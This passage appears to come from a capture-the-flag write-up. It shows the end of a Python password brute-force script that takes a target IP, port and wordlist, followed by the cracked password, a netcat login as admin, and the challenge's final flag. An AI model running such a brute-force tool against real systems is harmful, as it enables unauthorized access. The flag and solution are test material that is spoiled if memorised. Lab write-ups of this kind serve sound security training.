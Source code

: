 ```python
                cmd = input("$ ")
                if cmd.lower() == "exit":
                    break
                response = send_and_receive(client_socket, cmd)
                print(response)
            return True
        
        client_socket.close()
        time.sleep(1)
    
    print("Password not found in the provided wordlist.")
    return False

def main():
    parser = argparse.ArgumentParser(description="Password brute-force script for CTF challenge")
    parser.add_argument("-u", "--ip", required=True, help="Target IP address")
    parser.add_argument("-p", "--port", type=int, required=True, help="Target port number")
    parser.add_argument("-w", "--wordlist", required=True, help="Path to the wordlist file")
    parser.add_argument("-t", "--timeout", type=int, default=10, help="Timeout value in seconds (default: 10)")
    
    args = parser.parse_args()
    
    brute_force(args.ip, args.port, args.wordlist, args.timeout)

if __name__ == "__main__":
    main()

```



Result:
```terminal
Password found: abc123
```
Logging in as **admin**:
```terminal
nc 10.10.127.248 8000
admin
abc123
```

Final Flag: `ba5ed03e9e74bb98054438480165e221`
